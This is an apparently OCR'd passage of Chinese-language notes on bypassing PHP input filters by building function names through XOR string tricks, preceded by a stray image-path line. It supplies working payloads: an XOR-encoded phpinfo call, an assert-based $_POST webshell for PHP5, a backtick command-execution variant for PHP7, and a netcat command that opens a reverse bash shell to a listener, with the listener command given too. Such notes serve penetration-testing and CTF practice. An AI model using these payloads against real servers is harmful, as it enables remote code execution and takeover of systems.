 使用`异或运算POC生成脚本.php`

`$shell`变量输入需要构造的payload

比如执行phpinfo()函数,构造payload

`?cmd=$_="+(+).&/"^"[@[@@@@";$_();`

直接execute无法成功,因为**+**会被解释为空格,可以对**?cmd=**后面的部分进行url编码   注意:不能对前面编码



## assert()拼接(PHP5)

`<php`

`$a = 'assert';`

`$b = '_POST';`

`$c = $$b;`

`$a($c['_']);`

`?>`

代码作用:使用assert,若传入值是字符串,会被当做PHP代码执行

把a,b,c分别替换为`_,__,___`

`assert`和`_POST`使用异或脚本生成对应形式替换

构造payload:

`?cmd=$_= "!((%)(" ^ "@[[@[\\";$__ = "!+/((" ^ "~{{|";$___ = $$__;$_($___['_']);`                                                   #上面少了个反引号



**PHP<7.0时:**

assert会将传入的参数试着作为PHP代码去执行，这个参数可以是一个函数或者是一个表达式

**PHP>7.0时:**

assert在更新后无法将使用字符串作为参数，而传入GET或POST的数据默认的类型就是字符串，这就导致了assert不适宜再用来直接写马。



## 反引号``(PHP7)

(反引号)`$_POST[_]`(反引号);

payload:

?cmd=$_="!+/(("^"~{`{|";$__=$$_;`$__[_]`;     #注意要url编码在execute

利用hackbar上传post:

`_=nc 172.21.205.184 7777 -e /bin/bash`

在此之前在linux上监听端口:

`nc -lvp 7777`
